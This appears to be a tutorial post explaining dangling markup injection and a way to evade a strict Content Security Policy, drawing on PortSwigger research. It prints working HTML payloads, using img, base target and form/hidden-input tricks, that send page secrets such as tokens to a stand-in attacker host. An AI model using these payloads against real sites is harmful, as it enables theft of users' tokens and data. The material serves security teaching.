

Evading CSP with DOM-based dangling markup (PortSwigger) - An alternative approach
What is dangling markup?
It is a technique to steal a web page's given contents via resources that send that data onto a remote attacker controlled location.
If we have an injection point:
<INJECTION POINT> <b>test</b>
<script>
token = 'yoursecrettoken';
</script>
<form action="blah"></form>
We can simply inject: <img src="https://attackercontrolled.server? and the previous html becomes:
<img src="https://attackercontrolled.server? <b>test</b>
<script>
token = 'yoursecrettoken';
</script>
<form action="blah"></form>
As such, the data is sent as part of the query-string to the attacker controlled domain.
Portswigger Research
This does not work with strict CSP such as: default-src 'none'; base-uri 'none';. The image will not load because no origin is allowed for that purpose.
The amazing portswigger researcher Gareth Heyes discovered a technique to inject dangling markup even with these restrict directives:
<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="blah<b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah">
</form>
By injecting an <a>and a <base> tag, we send data onto an attacker controlled server: If the target attribute is not one of any predefined values, it will set window.name of the new window to the value it has. This means we can inject a dangling markup, and exfiltrate the data in the attacker controlled server like this:
<script>alert("The extracted content is:" + name);</script>
If form is allowed - exifiltrating without correct markup, without javascript and bypassing CSP.
If the tag <form> is allowed, an attacker can exfiltrate information with a dangling markup by taking advantage of action and value attributes of <form> and <input>respectively. This technique does not require correct markup below your injection point, bypasses CSP and does not use javascript on another page to exfiltrate what was read.
<?php
header("Content-Security-Policy: base-uri 'none'; default-src 'none';");
?>
<!DOCTYPE HTML>
<html>
<form action="http://attackercontrolled.server" method="GET">
<input type="submit" name="submit">
<input hidden type="text" name="id" value="
<script>
token = 'supersecret';
</script>
</form>"
</html>
This works because before a form is sent the browser collects each value attribute in each <input> tag. When the form is sent by cliking the submit button, those values are sent with it to the url at the attacker controlled server. The attacker receives that data via the id query-string.
